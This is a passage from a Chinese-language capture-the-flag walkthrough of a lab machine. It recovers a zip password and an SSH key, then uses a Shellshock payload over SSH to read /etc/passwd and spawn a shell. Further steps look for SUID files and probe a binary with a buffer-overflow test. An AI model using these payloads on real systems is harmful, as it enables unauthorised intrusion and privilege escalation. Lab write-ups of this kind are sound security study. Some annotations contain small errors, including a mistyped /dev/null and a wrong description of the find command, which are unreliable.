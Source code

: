 PASSWORD FOUND!!!!: pw == ItCantReallyBeThisEasyRightLOL

找到密码：
ItCantReallyBeThisEasyRightLOL


7、解压信息枚举
unzip lmao.zip
ItCantReallyBeThisEasyRightLOL
inflating: noob 
获得noob文件！

-----END RSA PRIVATE KEY-----
发现这是一个ssh的key文件！

chmod 400 noob
ssh -i noob noob@192.168.4.15
Warning: Permanently added '192.168.4.15' (ECDSA) to the list of known hosts.
TRY HARDER LOL!

bash CVE-2014-6271 中的远程利用漏洞：Shellshock
https://www.csoonline.com/article/2687265/remote-exploit-in-bash-cve-2014-6271.html
https://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh
https://www.zdziarski.com/blog/?p=3905
https://resources.infosecinstitute.com/topic/practical-shellshock-exploitation-part-1/#gref

视频介绍：http://bloggars-online.blogspot.com/2014/10/bash-shellshock-ssh-exploit.html

前提条件是shell 设置为bash！

payload：
'() { :;}; cat /etc/passwd'
操作系统误当() { :;}; 为函数环境变量！
三种方法！


ssh -i noob noob@192.168.2.168 '() { :;}; cat /etc/passwd'
ssh -i noob noob@192.168.4.15 '() { :;}; /bin/bash'    ----这会反弹一个伪shell

python -c 'import pty; pty.spawn("/bin/bash")'

env  ---查看环境变量

查询具有SID权限的文件，将错误输出到/dev/unll：
find / -perm -4000 2>/dev/null     ----查找所有目录中文件属性具有读、写权限，查看rwsr的文件！


cd /nothing_to_see_here/choose_wisely/door2

8、提权-缓冲区溢出

./r00t
Usage: ./r00t input

测试是否存在缓冲区溢出：
python -c 'print "A" * 300'   ---生成300个A
./r00t AAAAA.......
Segmentation fault   ----分段错误，存在溢出！


可以放入本地分析：
base64 r00t
cat base64.txt | base64 -d > r00t
